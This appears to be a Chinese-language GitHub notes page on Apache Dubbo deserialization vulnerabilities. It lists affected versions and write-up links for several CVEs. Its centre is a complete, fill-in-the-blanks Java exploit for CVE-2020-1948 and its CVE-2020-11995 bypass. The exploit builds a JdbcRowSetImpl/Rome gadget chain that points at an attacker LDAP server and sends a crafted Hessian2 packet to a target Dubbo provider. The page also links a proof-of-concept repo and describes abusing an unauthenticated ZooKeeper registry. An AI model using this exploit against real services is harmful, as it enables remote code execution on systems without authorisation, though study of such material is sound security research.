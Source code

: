 # Dubbo 

>Apache Dubbo 是伪装的、轻量级的Java RPC 服务框架。[RPC服务](https://www.zhihu.com/question/25536695) 
>[默认反序列化利用之hessian2](https://www.anquanke.com/post/id/197658)

### CVE-2019-17564
>spring (spring-web（5.1.9.RELEASE）) 的httpinvoker 可能存在反序列化漏洞 [docs](https://docs.spring.io/spring-framework/docs/5.1.0.RELEASE/spring-framework-reference/integration.html#remoting-httpinvoker)

http://www.lmxspace.com/2020/02/16/Apache-Dubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

https://www.mi1k7ea.com/2021/07/03/%E6%B5%85%E6%9E%90Dubbo-HttpInvokerServiceExporter%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/

### CVE-2020-1948
https://www.anquanke.com/post/id/209251
```
2.7.0 <= Dubbo Version <= 2.7.6
2.6.0 <= Dubbo Version <= 2.6.7
Dubbo 所有 2.5.x 版本（官方团队目前已不支持）
```

### CVE-2020-11995

CVE-2020-1948的绕过

```
Dubbo 2.7.0 ~ 2.7.8
Dubbo 2.6.0 ~ 2.6.8
Dubbo 所有 2.5.x 版本
```

```java
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;
import marshalsec.util.Reflections;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;

/**
 *  CVE-2020-1948 exp
 *  if (!RpcUtils.isGenericCall(path, getMethodName()) && !RpcUtils.isEcho(path, getMethodName())) {
 *       throw new IllegalArgumentException("Service not found:" + path + ", " + getMethodName());
 *  }
 * 下面有绕过CVE-2020-11995
 * 调用的函数名为 "$invoke"、 "$invokeAsync"、"$echo"三者之一
 */
public class GadgetsTestHessian {

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:43658/ExecObject");
        rs.setMatchColumn("foo");
        Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap s = new HashMap<>();
        Reflections.setFieldValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
        Reflections.setFieldValue(s, "table", tbl);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        out.writeUTF("2.0.2");
        //todo 此处填写注册中心获取到的service全限定名、版本号、方法名
        out.writeUTF("com.threedr3am.learn.server.boot.DemoService");
        out.writeUTF("1.0");
        out.writeUTF("$invoke");//CVE-2020-11995  $invoke,$invokeAsync,$echo
        //todo 方法描述不需要修改，因为此处需要指定map的payload去触发
        out.writeUTF("Ljava/util/Map;");
        out.writeObject(s);
        out.writeObject(new HashMap());

        out.flushBuffer();
        if (out instanceof Cleanable) {
            ((Cleanable) out).cleanup();
        }

        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

        byte[] bytes = byteArrayOutputStream.toByteArray();

//todo 此处填写被攻击的dubbo服务提供者地址和端口
        Socket socket = new Socket("127.0.0.1", 12345);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```
### CVE-2021-25641
>Dubbo Provider即服务提供方默认使用dubbo协议来进行RPC通信，而dubbo协议默认是使用Hessian2序列化格式进行对象传输的,不过可以通过更改dubbo协议的第三个flag位字节来更改为使用Kryo或FST序列化格式来进行Dubbo Provider反序列化攻击从而绕过针对Hessian2反序列化相关的限制来达到RCE。

https://www.mi1k7ea.com/2021/06/30/%E6%B5%85%E6%9E%90Dubbo-KryoFST%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25641%EF%BC%89/

```
CVE-2021-25641 利用版本需要判断

一方面dubbo-common必须<=2.7.3版本另一方面fj的版本要<=1.2.49 并且在2.7.4.1的版本中已经更新了fj版本所以不能使用(只是目前)

```
~~可以整理一个fastjson利用gadget~~

### CVE-2021-30179

https://mp.weixin.qq.com/s/vHJpE2fZ8Lne-xFggoQiAg

```
Apache Dubbo 2.7.0 to 2.7.9
Apache Dubbo 2.6.0 to 2.6.9
Apache Dubbo all 2.5.x versions (官方已不再提供支持)

实验：https://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247488856&idx=1&sn=ee37514a5bfbf8c35f4ec661a4c7d45a&chksm=903933a8a74ebabecaf9428995491494f20e5b24a15f8d52e79d3a9dac601620c21d097cdc1f&scene=21#wechat_redirect

```
exp:https://github.com/lz2y/DubboPOC
```
Apache Dubbo默认支持泛化引用由服务端API接口暴露的所有方法，这些调用由GenericFilter处理。GenericFilter将根据客户端提供的接口名、方法名、方法参数类型列表，根据反射机制获取对应的方法，再根据客户端提供的反序列化方式将参数进行反序列化成pojo对象。

也就是说需要知道注册中心注册的接口名，方法名，才可以配合攻击。
```
也就是需要存在无授权服务注册中心比如zookeeper的无授权去获得接口名和方法名。使用工具**zookeeper-dev-ZooInspector.jar**

**个人认为CVE-2021-30179的主要思路就是Apache Dubbo在处理泛类引用时，提供了多种通过反序列化方式得到对象再生成pojo对象的选择。** 三梦师傅说跟这个思路扩大了反序列化挖掘思路

### Dubbo反序列化RCE利用之新拓展面 - Dubbo Rouge攻击客户端

https://xz.aliyun.com/t/7354

**文章中有一点非常强**
![image](https://user-images.githubusercontent.com/63966847/139078049-28694796-bb21-40fe-9e8d-38d96da29ab8.png)
